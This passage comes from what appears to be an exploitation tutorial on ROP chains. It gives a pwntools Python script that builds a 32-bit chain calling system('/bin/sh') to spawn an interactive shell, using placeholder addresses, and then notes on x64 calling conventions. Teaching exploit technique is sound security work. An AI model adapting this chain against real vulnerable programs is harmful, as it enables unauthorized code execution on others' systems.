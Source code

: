 ### **ROP Chain**

Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [**Ret2lib**](ret2lib/))
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address  (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

* Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
* **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
* **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.
